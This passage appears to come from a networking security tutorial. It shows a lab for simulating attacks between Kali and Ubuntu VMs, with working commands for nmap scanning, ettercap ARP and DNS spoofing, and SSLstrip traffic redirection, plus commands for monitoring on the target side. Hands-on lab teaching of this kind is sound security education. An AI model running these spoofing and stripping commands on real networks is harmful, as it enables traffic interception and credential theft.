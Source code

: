 ```bash

# 11. Create client configuration file
# Prepare client.ovpn file
```

### 🔬 Lab 4: Network Attack Simulation

**Objective**: Test network attacks in controlled environment

**Requirements**: 2 VMs (Kali Linux + Ubuntu)

**Steps**:
```bash
# Kali Linux (Attacker)

# 1. Network discovery
nmap -sn 192.168.1.0/24

# 2. Target scanning
nmap -sS -A 192.168.1.100

# 3. ARP spoofing
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# 4. DNS spoofing
# Edit /etc/ettercap/etter.dns file
echo "www.google.com A 192.168.1.50" >> /etc/ettercap/etter.dns
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1// /192.168.1.100//

# 5. SSL Strip
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
sslstrip -l 8080

# Ubuntu (Target)

# 1. Monitor network traffic
sudo tcpdump -i eth0 -w capture.pcap

# 2. Check ARP table
arp -a
watch -n 1 arp -a

# 3. Test DNS queries
nslookup www.google.com

# 4. Test HTTPS connections
curl -I https://www.google.com
```

---

## 🌍 Real-World Scenarios
